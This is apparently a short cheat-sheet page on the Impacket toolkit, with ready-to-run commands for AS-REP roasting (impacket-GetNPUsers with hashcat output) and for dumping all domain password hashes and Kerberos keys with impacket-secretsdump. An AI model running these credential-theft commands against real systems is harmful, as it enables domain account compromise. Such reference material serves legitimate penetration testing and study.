 ```yaml
---
title: Impacket
desc: Provides low level access to the packets. Also, impacket-GetNPUsers is used for ASREPRoasting.
tags: [ActiveDirectory, ActiveRecon, Windows]
alts: [Bloodhound, Kerbrute, Mimikatz]
website:
---
```


```sh
impacket-netview -h
```

<br />

## impacket-GetNPUsers

Lists users and passwords is not required Kerberos pre auth. Used for ASREPRoasting.

```sh
# Get password (e.g. domain: 'example.local', username: 'admin')
impacket-GetNPUsers -dc-ip 10.0.0.1 -format hashcat example.local/admin
```

<br />

## impacket-secretsdump

Gets all password hashes.

```sh
# Basic
impacket-secretsdump example.local/admin:admin@10.0.0.1

# Only NTLM hashes and Kerberos keys
impacket-secretsdump -just-dc example.local/admin:admin@10.0.0.1

# Only NTLM hashes
impacket-secretsdump -just-dc-ntlm example.local/admin:admin@10.0.0.1
```